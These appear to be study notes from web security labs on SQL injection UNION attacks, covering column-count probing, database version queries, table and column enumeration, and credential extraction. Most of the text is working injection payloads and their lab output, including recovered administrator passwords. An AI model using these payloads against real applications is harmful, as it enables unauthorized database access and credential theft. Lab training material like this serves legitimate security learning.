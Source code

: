 # SQL injection UNION attacks

```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

This SQL query will return a single result set with two columns, containing values from columns `a` and `b` in `table1` and columns `c` and `d` in `table2`.

## Determining the number of columns required in an SQL injection UNION attack

```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

If the number of nulls does not match the number of columns, the database returns an error, such as:

```
All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.
```

```
Note:

The reason for using NULL as the values returned from the injected SELECT query is that the data types in each column must be compatible between the original and the injected queries. Since NULL is convertible to every commonly used data type, using NULL maximizes the chance that the payload will succeed when the column count is correct.

On Oracle, every SELECT query must use the FROM keyword and specify a valid table. There is a built-in table on Oracle called dual which can be used for this purpose. So the injected queries on Oracle would need to look like:

' UNION SELECT NULL FROM DUAL--

The payloads described use the double-dash comment sequence -- to comment out the remainder of the original query following the injection point. On MySQL, the double-dash sequence must be followed by a space. Alternatively, the hash character # can be used to identify a comment.
```

## Finding columns with a useful data type in an SQL injection UNION attack

```sql
' UNION SELECT NULL,NULL,NULL--
' UNION SELECT 'a',NULL,NULL--
' UNION SELECT NULL,'a',NULL--
' UNION SELECT NULL,'WDSF9G',NULL--
```

## Using an SQL injection UNION attack to retrieve interesting data

```sql
' UNION SELECT username, password FROM users--
```

# Examining the database in SQL injection attacks

## Querying the database type and version

| Database type    | Query                    |
| ---------------- | ------------------------ |
| Microsoft, MySQL | SELECT @@version         |
| Oracle           | SELECT \* FROM v$version |
| PostgreSQL       | SELECT version()         |

```sql
' UNION SELECT @@version--
```

# Lab: SQL injection attack, querying the database type and version on Oracle

### step1

```sql
' UNION SELECT 'abc','def' FROM dual--
```

or

```sql
'+UNION+SELECT+'abc','def'+FROM+dual--
```

### step2

```sql
' UNION SELECT BANNER, NULL FROM v$version--
```

or

```sql
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```

> _The BANNER displays the database release and version number_

# Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

```SQL
'+UNION+SELECT+NULL-- +

'+UNION+SELECT+NULL,NULL-- +
```

for mysql version -- @@version

```sql
'+UNION+SELECT+'abc','def'-- +

'+UNION+SELECT+@@version,NULL-- +
```

# Lab: SQL injection attack, listing the database contents on non-Oracle databases

```sql
SELECT * FROM information_schema.tables
-----------------------------------------
'+UNION+SELECT+'abc','def'--

'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--

```

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
------------------------------------------------------------------
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='Users' --

'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--

--------------------------------------------
administrable_role_authorizations
users_vbxvem



'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_vbxvem' --

username_myiekf
password_jmmuvv
-------------------------------------------------------------------------
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''

'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--
```

```sql
'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+administrator--

'+UNION+SELECT+username_myiekf,+password_jmmuvv+FROM+users_vbxvem--

administrator

z888yjo94b3dc8h6lh7a

login using username and password

```

# Lab: SQL injection attack, listing the database contents on Oracle

```sql
'+UNION+SELECT+'abc','def'+FROM+dual--
```

`SELECT * FROM all_tables`

```sql
'+UNION+SELECT+table_name,+NULL+FROM+all_tables--
```

USERS_WOVBIP

SELECT \* FROM all_tab_columns WHERE table_name = 'USERS'

```sql
'+UNION+SELECT+column_name,+NULL+FROM+all_tab_columns+WHERE+table_name='USERS_WOVBIP' --
```

USERNAME_GONUHE
PASSWORD_JURDTC

```sql
'+UNION+SELECT+USERNAME_GONUHE,+PASSWORD_JURDTC+FROM+USERS_WOVBIP--
```

administrator
lhgjg7dv0mibjdif3qbp

# Retrieving multiple values within a single column

```sql
' UNION SELECT username || '~' || password FROM users--
```

double-pipe sequence `||` which is a string concatenation operator on Oracle
The injected query concatenates together the values of the `username` and `password` fields, separated by the `~` character.

The results from the query will let you read all of the usernames and passwords, for example:

```
administrator~s3cure
wiener~peter
carlos~montoya
```

# Lab: SQL injection UNION attack, retrieving multiple values in a single column

```SQL
'+UNION+SELECT+NULL,NULL--
'+UNION+SELECT+NULL,'abc'--

```

```SQL
' UNION SELECT username || '~' || password FROM users--


'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```

administrator~wdtutsdxwxupiunyko0r
